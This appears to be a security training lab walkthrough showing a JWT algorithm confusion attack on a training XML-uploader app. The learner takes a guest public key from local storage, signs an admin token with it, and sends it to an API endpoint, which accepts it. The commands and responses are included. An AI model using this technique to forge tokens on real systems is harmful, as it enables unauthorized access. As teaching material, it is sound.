 ## Algorithm Confussion

##### Step 1:

* Open browser

![](img/open-browser.png)


##### Step 2:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploder application.

![](img/login-page.png)

##### Step 3:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer` to select the `Storage Inspect` tab.

![](img/local-storage.png)

##### Step 4:

* Click on `Local-Storage` icon on left, and expand.

    * Copy the `guest_public_key` and `guest_token`
    
    ![](img/click-local-storage.png)

##### Step 5:

* Open Browser

![](img/open-browser.png)


##### Step 6:

* Open `https://www.base64decode.org/` to decode the guest_public_key
   

##### Step 7:

* Open Terminal

![](img/Open-Terminal.png)
    
     
##### Step 8:

* Run `touch public_key.pem`

    ```commandline
    root@we45-VirtualBox:/home/we45# touch public_key.pem
    ```
##### Step 9:


* Run `vim public_key.pem` 

* Run `esc + i` to paste the decoded public key

* Once it is pasted run `esc + wq` to save the file    

##### Step 10:

* Run `node token_gen.js --file public_key.pem --username admin`

   **Note:** Copy the token
        

    ```commandline
    root@we45-VirtualBox:/home/we45# node token_gen.js --file public_key.pem --username admin
        
    This is your token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODk1Mjc0fQ.XFhJRm1W_58ulrgVJ9_vy7LsGy14VICXCLMQsh8g-nE
    
    ```
    
##### Step 11:

* Run `http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:<copied token>`

    ```commandline
    root@we45-VirtualBox:/home/we45# http GET https://3u97ne6l2g.execute-api.us-east-1.amazonaws.com/latest/confusion Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwic3RhdHVzIjoiaGFja2VkIiwiaWF0IjoxNTM3ODgwMjg2fQ.29E-i4QD21pvpA41oEJx60haJoOpgqbpzbvE6OK-Exg
    HTTP/1.1 200 OK
    Access-Control-Allow-Credentials: true
    Access-Control-Allow-Headers: Content-Type,Authorization,X-Amz-Date,X-Api-Key,X-Amz-Security-Token
    Access-Control-Allow-Methods: GET,OPTIONS
    Access-Control-Allow-Origin: *
    Access-Control-Max-Age: 0
    Connection: keep-alive
    Content-Length: 114
    Content-Type: application/json
    Date: Tue, 25 Sep 2018 17:12:14 GMT
    Via: 1.1 5bc1c4711561ec9e65e05f2ef18f000a.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: JquwGQ1bb1vr5ev4oFF6R8e5MqbzM-YqyVvEJJKaz7fPN0nRlly3rw==
    X-Amzn-Trace-Id: Root=1-5baa6c6d-a196d3961775849ef9a9ffc4;Sampled=1
    X-Cache: Miss from cloudfront
    X-Success-Request: true
    x-amz-apigw-id: NyXhKFUHoAMFscA=
    x-amzn-RequestId: 25718e25-c0e6-11e8-86e5-dddb808cd601
    
    {
        "decoded": {
            "iat": 1537880286, 
            "status": "hacked", 
            "username": "admin"
        }, 
        "success": "You are successfully authenticated"
    }
    
    ```
